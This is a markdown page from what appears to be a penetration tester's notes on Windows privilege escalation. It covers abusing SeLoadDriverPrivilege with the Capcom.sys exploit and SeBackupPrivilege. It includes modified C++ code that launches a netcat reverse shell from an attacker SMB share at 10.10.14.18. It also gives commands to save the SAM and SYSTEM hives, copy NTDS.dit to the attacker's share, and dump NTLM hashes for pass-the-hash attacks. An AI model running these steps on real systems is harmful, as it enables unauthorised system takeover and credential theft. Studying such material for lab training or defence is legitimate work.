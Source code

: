 ```yaml
---
layout: default
title: Windows Privileges
parent: EXPLOITATION
has_children: false
has_toc: false
---
```


{% include toc.html %}

## SeLoadDriverPrivilege
### Capcom.sys exploit
If the user has `SeLoadDriverPrivilege` enabled (or disabled, it can be enabled) then a Capcom.sys exploit should get you root. You need three items for this:
1. EoPLoadDriver, available [here](https://github.com/TarlogicSecurity/EoPLoadDriver)
2. ExploitCapcom, available [here](https://github.com/tandasat/ExploitCapcom)
3. Capcom-Rootkit, available [here](https://github.com/FuzzySecurity/Capcom-Rootkit)

### Compiling EoPLoadDriver with VS2019
Later versions of C++ no longer use `stdafx.h` for precompiled headers. The `EoPLoadDriver` project references `stdafx.h` so fails to compile. To solve, create a new VS2019 C++ console app which will create new precompiled header files, `pch.h` and `pch.cpp`. Copy both files to the `EoPLoadDriver` project, change the `stdafx.h` references to `pch.h` references and the project should compile without errors.

### Updating ExploitCapcom to a Reverse Shell
`ExploitCapcom` is written to run interactively and open a new terminal windows with elevated privileges. A reverse shell is not an interactive environment, so it looks like the exploit has failed when executed within a reverse shell. To solve, update the `LaunchShell()` function to add a `CommandLine` parameter and pop a reverse shell from a smb share on the attacking machine. Don't forget to start another netcat listener to catch the second shell.

```c++
// Launches a command shell process
static bool LaunchShell()
{
    // This should be cmd.exe.
    TCHAR ApplicationName[] = TEXT("C:\\Windows\\system32\\cmd.exe");

    // Add this to call cmd.exe and pop a shell from a samba share.
    TCHAR CommandLine[] = TEXT("cmd /c \\\\10.10.14.18\\share\\nc.exe 10.10.14.18 5556 -e C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };

    // Change arg2 to CommandLine to pass the command line parameter to CreateProcess.
    if (!CreateProcess(ApplicationName, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

### References
The articles to read are:

https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/

http://www.fuzzysecurity.com/tutorials/28.html

## SeBackupPrivilege
This allows you to read, and therefore copy/backup, any file on the system. If you also find you have `SeNotifyChangePrivilege`, think SAM, SYSTEM, SECURITY and NTDS.dit. If you can backup these files, you can extract the hashes and try Pass The Hash (PTH) or try and crack them using Hashcat. Copying these files while they are in use is a pain but doable:
```
cmd /c reg save HKLM\SAM SAM
cmd /c reg save HKLM\SYSTEM SYSTEM
```

To backup `NTDS.dit`, take a backup of the file using (the SMB share will need to be on a Windows box as an NTFS file system is needed for this to work):
```
cmd /c wbadmin start backup -backuptarget:\\10.10.14.18\smb\ -include:C:\Windows\NTDS\NTDS.dit -quiet
``` 

Once backed up, on a Windows box, use `Computer Management > Storage > Disk Management` to attach the image (.VHD) and assign a drive letter. With a drive letter assigned, the `NTDS.dit` file can be copied in the normal way. You can then use `impacket-secretsdump.py` to extract `NTLM` hashes and use them for PTH with Evil-WinRM, CME or PTH-Tools:
```
$ impacket-secretsdump -sam SAM -system SYSTEM -ntds ntds.dit LOCAL > hashes
$ cat hashes | grep Administrator
```

### SeNotifyChangePrivilege
This allows you to access a file directly using the path when you would not be permitted to browse to it. See `SeBackupPrivilege` for example.
